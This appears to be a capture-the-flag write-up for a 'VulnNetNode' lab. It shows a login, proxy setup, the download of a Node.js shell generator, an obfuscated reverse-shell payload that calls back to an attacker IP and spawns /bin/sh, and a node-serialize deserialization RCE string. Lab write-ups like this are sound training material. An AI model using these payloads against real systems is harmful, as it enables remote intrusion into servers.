 <h3>TargetIP:8080</h3>

![image](https://github.com/user-attachments/assets/b1e6cb31-449a-43d4-9871-83bd3f7e0c13)


<h3>Target:8080/login</h3>

<p><code>researcher@mail.com</code>:<code>pass</code></p>

<h3>Burp Suite & FoxyProxy</h3>

![image](https://github.com/user-attachments/assets/57f4f7c8-7a17-4589-9904-1f70b44c3ed6)

![image](https://github.com/user-attachments/assets/430d6ed1-de5d-4694-af58-5ff546646255)


<h3>nodejsshell.py</h3>

```bash
:~/VulnNetNode# wget https://raw.githubusercontent.com/ajinabraham/Node.Js-Security-Course/refs/heads/master/nodejsshell.py
...
~# python nodejsshell.py AttackIP 4444
[+] LHOST = AttackIP
[+] LPORT = 4444
[+] Encoding
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,50,49,48,46,56,56,34,59,10,80,79,82,84,61,34,52,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))
```

```bash
{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10 .... 10))}()"}
```
